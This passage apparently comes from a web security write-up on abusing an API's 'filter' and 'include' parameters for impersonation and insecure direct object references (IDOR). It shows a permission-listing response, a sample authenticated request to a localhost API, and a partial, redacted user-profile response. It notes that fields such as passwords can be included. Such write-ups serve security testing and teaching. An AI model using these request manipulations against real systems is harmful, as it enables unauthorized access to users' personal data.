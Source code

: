 ```http
            "effectiveBehavior": "PERMIT",
            "translationKey": "layout.change_user_data",
            "type": "FunctionalityPermissionDTO"
        }, {
            "functionalityId": 4,
            "permissionId": 4,
            "effectivePriority": "PERMIT",
            "effectiveBehavior": "PERMIT",
            "translationKey": "general.configuration",
            "type": "FunctionalityPermissionDTO"
        }, {
            .......
```

## Impersonate or Insecure Direct Object References (IDOR)

In addition to the use of the `filter` parameter, it is possible to use other parameters such as `include` which allows to include in the result certain parameters (e.g. language, country, password...).

In the following example, the information of our user profile is shown:

### Request

```http
GET /api/users?include=language,country HTTP/1.1
Host: localhost:3000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: application/vnd.api+json
Accept-Language: es-ES,es;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br, zstd
Content-Type: application/vnd.api+json
Authorization: Bearer eyJ......
Origin: https://localhost:3000
Connection: keep-alive
Referer: https://localhost:3000/
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-site
```

### Response

```http
HTTP/1.1 200 
Date: Sat, 22 Mar 2025 19:47:27 GMT
Content-Type: application/vnd.api+json;charset=UTF-8
Content-Length: 540
Connection: keep-alive
Vary: Origin
Vary: Access-Control-Request-Method
Vary: Access-Control-Request-Headers
Access-Control-Allow-Origin: *

{
    "data": [{
        "id": "D5********************",
        "type": "UserGetResponseCustomDTO",
        "attributes": {
            "status": "ACTIVE",
            "countryId": 63,
            "timeZoneId": 3,
            "translationKey": "**********",
            "email": "domingo....@domain.local",
```